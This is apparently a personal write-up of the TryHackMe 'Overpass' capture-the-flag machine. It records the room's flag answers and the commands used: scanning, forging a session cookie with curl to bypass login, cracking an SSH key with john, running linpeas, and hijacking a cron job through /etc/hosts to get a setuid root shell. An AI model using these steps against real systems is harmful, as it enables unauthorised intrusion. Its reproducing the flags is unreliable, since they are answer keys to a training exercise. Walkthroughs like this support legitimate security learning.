 What happens when a group of broke Computer Science students try to make a password manager?  
Obviously a _perfect_ commercial success!

There is a TryHackMe subscription code hidden on this box. The first person to find and activate it will get a one month subscription for free! If you're already a subscriber, why not give the code to a friend?

UPDATE: The code is now claimed.  
The machine was slightly modified on 2020/09/25. This was only to improve the performance of the machine. It does not affect the process.

Answer the questions below

| Question                                      | Answer                                |
| --------------------------------------------- | ------------------------------------- |
| Hack the machine and get the flag in user.txt | thm{65c1aaf000506e56996822c6281e6bf7} |

```
export IP=10.10.0.214
```

```
nmap -sC -sV -A -T4 -v -p- -oN scans/nmap $IP
```

![[Pasted image 20240421093536.png]]


```
gobuster dir --url http://$IP --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster
```

![[Pasted image 20240421093601.png]]

*Page source:*

![[Pasted image 20240421094227.png]]

*Check login.js:*

![[Pasted image 20240421122348.png]]


![[Pasted image 20240421122833.png]]

*Change the cookie (using curl or cookie editor and send it:*

```
curl "http://10.10.24.195/admin/" --cookie "SessionToken=anything"
```

![[Pasted image 20240421123229.png]]
![[Pasted image 20240421123252.png]]


*Add it in browser:*

![[Pasted image 20240421123814.png]]

*Run and refresh the page:*

![[Pasted image 20240421123857.png]]


*Download the SSH private key to a Id_rsa file and change its permissions::*

![[Pasted image 20240421124245.png]]

*Crack it using john:*

```
ssh2john id_rsa > rsa
```

![[Pasted image 20240421124532.png]]

```
john --wordlist=/usr/share/wordlists/rockyou.txt rsa
```

![[Pasted image 20240421124653.png]]

*Connect to SSH using the credentials:*

![[Pasted image 20240421124922.png]]


```
ssh -i id_rsa james@10.10.24.195
```

![[Pasted image 20240421125257.png]]

![[Pasted image 20240421192741.png]]


*Download the files from /downloads:*

![[Pasted image 20240421094446.png]]

*Run overpassLinux:*

![[Pasted image 20240421094905.png]]

| Question                                              | Answer                                |
| ----------------------------------------------------- | ------------------------------------- |
| Escalate your privileges and get the flag in root.txt | thm{7f336f8c359dbac18d54fdd64ea753bb} |


*Open todo.txt:*

![[Pasted image 20240421193308.png]]

*Search for a password:*

![[Pasted image 20240421193441.png]]

*And decode it:*

![[Pasted image 20240421193619.png]]


*Transfer linpeas to target machine:*

```
scp /usr/share/peass/linpeas/linpeas.sh james@10.10.55.227:/dev/shm
```

![[Pasted image 20240421200905.png]]

*And run it:*

![[Pasted image 20240421200953.png]]

![[Pasted image 20240421201122.png]]

![[Pasted image 20240421201356.png]]

*Modify /etc/hosts with my IP:*

![[Pasted image 20240421201624.png]]


![[Pasted image 20240421201826.png]]
![[Pasted image 20240421201810.png]]


![[Pasted image 20240421201650.png]]

*On host machine create www/downloads/src directory:*

![[Pasted image 20240421204012.png]]

![[Pasted image 20240421204022.png]]

*Create buildscript.sh file inside it:*

![[Pasted image 20240421204214.png]]



*Watch /bin/bash:*

```
watch ls -la /bin/bash
```

![[Pasted image 20240421203433.png]]

![[Pasted image 20240421203312.png]]


*Start local server on port 80:*

![[Pasted image 20240421203203.png]]

*And see GET request at the end of the minute:*

![[Pasted image 20240421220002.png]]


*Run /bin/bash:*

```
/bin/bash -p
```

![[Pasted image 20240421215937.png]]

![[Pasted image 20240421220140.png]]
